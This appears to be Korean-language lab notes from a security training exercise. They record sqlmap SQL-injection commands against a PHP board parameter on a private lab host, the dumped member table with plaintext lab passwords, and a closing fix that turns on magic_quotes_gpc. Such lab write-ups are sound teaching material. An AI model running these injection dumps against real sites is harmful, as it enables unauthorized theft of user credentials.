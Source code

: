 ```
Database: WebTest                                                                             
Table: member
[4 entries]
+--------+------+------+---------------+---------+-------------+----------+---------------------+
| u_id   | age  | no   | email         | u_name  | u_pass      | nickname | reg_date            |
+--------+------+------+---------------+---------+-------------+----------+---------------------+
| tester | 30   | 1    | admine@kh.com | 테스터  | qwer1234    | 멍청이   | 2020-10-16 17:04:50 |
| admin  | 0    | 2    | <blank>       | 관리자  | P@ssw0rd    | 관리자   | 2020-10-16 17:04:50 |
| easy   | NULL | 3    | NULL          | <blank> | 12          | 이지     | 0000-00-00 00:00:00 |
| hacker | 24   | 5    | hacker@kh.com | 해커    | keroro2424. | 해커     | 2020-10-21 14:38:33 |
+--------+------+------+---------------+---------+-------------+----------+---------------------+

[14:48:19] [INFO] table 'WebTest.`member`' dumped to CSV file '/root/.local/share/sqlmap/output/172.16.10.20/dump/WebTest/member.csv'                                                         
[14:48:19] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/172.16.10.20'                                                                                     

[*] ending @ 14:48:19 /2020-10-22/

```

board 확인

root@kali-04:~# sqlmap -u "http://172.16.10.20/board/board_view.php?num=1" -p "num" -T "board" --dump

```
값이 너무 많아요 이건
```



값만 보려면

root@kali-04:~# cat /root/.local/share/sqlmap/output/172.16.10.20/dump/WebTest/member.csv

```
root@kali-04:~# cat /root/.local/share/sqlmap/output/172.16.10.20/dump/WebTest/member.csv
u_id,age,no,email,u_name,u_pass,nickname,reg_date
tester,30,1,admine@kh.com,테스터,qwer1234,멍청이,2020-10-16 17:04:50
admin,0,2,<blank>,관리자,P@ssw0rd,관리자,2020-10-16 17:04:50
easy,NULL,3,NULL,<blank>,12,이지,0000-00-00 00:00:00
hacker,24,5,hacker@kh.com,해커,keroro2424.,해커,2020-10-21 14:38:33


```

[root@Linux-04 member]# cd ../
[root@Linux-04 html]# vim dbconn.php



### magic_quotes_gpc (158p)

[root@Linux-04 html]# vim /etc/php.ini

```
 745 magic_quotes_gpc = On  // off -> on 으로 바꿈

```
